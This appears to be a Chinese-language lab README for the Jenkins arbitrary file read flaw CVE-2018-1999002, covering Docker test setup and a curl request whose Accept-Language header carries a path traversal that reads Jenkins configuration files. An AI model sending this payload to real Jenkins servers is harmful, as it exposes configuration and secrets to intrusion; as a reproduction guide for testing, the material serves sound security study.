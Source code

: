 # Jenkins 任意文件读取漏洞（CVE-2018-1999002）

## 原理

参考阅读 https://xz.aliyun.com/t/2486

## 测试环境搭建

测试环境编译及运行：

```
docker-compose build
docker-compose up -d
```

首次运行时会要求填写初始密码，默认在`/var/jenkins_home/secrets/initialAdminPassword`文件中，使用`docker-compose exec jenkins cat /var/jenkins_home/secrets/initialAdminPassword`即可读取。

安装完成后，在 `系统管理->全局安全配置` 下设置 `匿名用户具有可读权限`。

在开启匿名用户的可读权限后，该漏洞在Windows环境下可任意读取，但在Linux下读取条件较为苛刻，为方便测试，运行`docker-compose exec jenkins mkdir /var/jenkins_home/plugins/jquery-detached/_`来满足漏洞的利用条件。

## 测试过程

```
curl -H 'Accept-Language: /../../../config' http://127.0.0.1:8080/plugin/jquery-detached/.xml
```

读取配置文件：

![](1.png)

